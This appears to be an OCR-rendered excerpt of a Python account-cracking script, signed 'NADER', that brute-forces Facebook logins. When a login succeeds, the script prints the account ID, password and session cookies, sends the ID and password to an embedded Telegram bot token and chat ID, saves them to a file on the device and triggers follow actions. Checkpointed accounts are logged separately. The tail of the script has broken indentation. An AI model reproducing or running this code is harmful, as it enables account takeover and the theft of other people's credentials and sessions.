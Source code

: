             log_cookies=session.cookies.get_dict().keys()
            if 'c_user' in log_cookies:
                coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()])
                cid = coki[7:22]                
                print('    \033[1;32m[OK NADER]=  ' +cid+ ' | ' +ps+    '  \n \033[1;97mCOOKES = \033[1;97m'+coki+  ' \n '+pro+'  \033[0;97m')
                
                token = '6105621518:AAHUAaYYVEUKNixj44yu6hhAYpcoDaKZrtU'
                ID = '5868677803'
                tlg = (f'''

⋘─────━𓆩NADER𓆪─────━⋙  
ايدي : {cid}\n باسوورد: {ps} 
⋘─────━𓆩NADER𓆪─────━⋙ 
❖ - ᗷY : NADER

''')

                requests.get("https://api.telegram.org/bot"+str(token)+"/sendMessage?chat_id="+str(ID)+"&text="+str(tlg))                
                cek_apk(session,coki)
                open('/sdcard/ok.txt', 'a').write( cid+' | '+ps+'\n')
                oks.append(cid)
                follow(self, session, coki)
                break
            elif 'checkpoint' in log_cookies:
                coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()])
                cid = coki[24:39]
                print('    \33[1;30mCP = ' +cid+ ' | ' +ps+           '  \33[0;97m')
                open('/sdcard/cp.txt', 'a').write( cid+' | '+ps+' \n')
                cps.append(cid)
                break
            else:
                continue
        loop+=1
        sys.stdout.write('\r               %s[%s/%s]  [OK NADER:%s]  [CP NADER:%s] \r'%(H,loop,tl,len(oks),len(cps))),
        sys.stdout.flush()
    except:
        pass

i()

 print('\033[1;31m 1')
 time.sleep(1)
 print('\033[1;32m 2')
 time.sleep(1)
 print('\033[1;31m 3')
 time.sleep(1)
 print('\033[1;32m 4')
 time.sleep(1)
 print('\033[1;31m 5')
 time.sleep(1)
 print('\033[1;32m 6')
 time.sleep(1)
 print('\033[1;31m 7')
 time.sleep(1)
 print('\033[1;32m 8')
 time.sleep(1)
 print('\033[1;31m 9')
 time.sleep(1)
 print('\033[1;32m10')
 webbrowser.open('https://t.me/nade20080')
 exit()
 open(".token.txt", "w").write(' . . . .')
 print(x)